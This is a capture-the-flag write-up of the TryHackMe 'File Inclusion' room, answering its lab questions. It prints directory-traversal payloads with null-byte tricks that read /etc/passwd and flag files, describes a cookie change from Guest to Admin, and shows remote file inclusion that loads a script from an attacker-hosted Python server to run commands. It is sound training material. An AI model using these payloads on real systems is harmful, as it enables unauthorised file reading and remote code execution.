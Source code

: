 # File Inclusion

**Room Link:** [https://tryhackme.com/room/fileinc](https://tryhackme.com/room/fileinc)



**Give Lab #1 a try to read /etc/passwd. What would the request URI be?**

<figure><img src="../../.gitbook/assets/image (16) (5).png" alt=""><figcaption></figcaption></figure>

**In Lab #2, what is the directory specified in the include function?**

<figure><img src="../../.gitbook/assets/image (23) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Give Lab #3 a try to read /etc/passwd. What is the request look like?**

Input field didn't work but we were able to bypass by entering our command in the web browser instead.

**URL:** hxxp://10.10.230.14/lab3.php?file=..//..//../../../etc/passwd%00&#x20;

<figure><img src="../../.gitbook/assets/image (22) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Which function is causing the directory traversal in Lab #4?**

file\_get\_contents

<figure><img src="../../.gitbook/assets/image (34) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Try out Lab #6 and check what is the directory that has to be in the input field?**

THM-profile

<figure><img src="../../.gitbook/assets/image (49) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Try out Lab #6 and read /etc/os-release. What is the VERSION\_ID value**

Only worked in browser

hxxp://10.10.230.14/lab6.php?file=THM-profile//..//..//..//..//etc//os-release%00

<figure><img src="../../.gitbook/assets/image (14) (5) (1).png" alt=""><figcaption></figcaption></figure>

**Capture Flag1 at /etc/flag1**





<figure><img src="../../.gitbook/assets/image (12) (6).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (17) (3).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (47) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (3) (1).png" alt=""><figcaption></figcaption></figure>

**Capture Flag2 at /etc/flag2**

<figure><img src="../../.gitbook/assets/image (28) (3).png" alt=""><figcaption></figcaption></figure>

Change the value from Guest to Admin and we can bypass the error message above.

<figure><img src="../../.gitbook/assets/image (50) (1) (2).png" alt=""><figcaption></figcaption></figure>

Change the value to the flag and we can see it on the page.

<figure><img src="../../.gitbook/assets/image (31) (2) (1).png" alt=""><figcaption></figcaption></figure>

What it would look like in burp.

<figure><img src="../../.gitbook/assets/image (32) (2).png" alt=""><figcaption></figcaption></figure>

**Capture Flag3 at /etc/flag3**

Page is getting rid of our slashes

<figure><img src="../../.gitbook/assets/image (11) (7).png" alt=""><figcaption></figcaption></figure>

Changing to post and added extra slashed and null character at end.

<figure><img src="../../.gitbook/assets/image (30) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>



**Gain RCE in Lab #Playground /playground.php with RFI to execute the hostname command. What is the output?**

**Kali**

Created the following file to run the hostname command.

![](<../../.gitbook/assets/image (14) (1) (1) (1).png>)

**Kali**

Host the file

```
python2 -m SimpleHTTPServer 81
```

**Browser**

```
hxxp://10.10.230.14/playground.php?file=http://10.10.11.193:81/cmd.txt
```

<figure><img src="../../.gitbook/assets/image (10) (1) (5) (1).png" alt=""><figcaption></figcaption></figure>
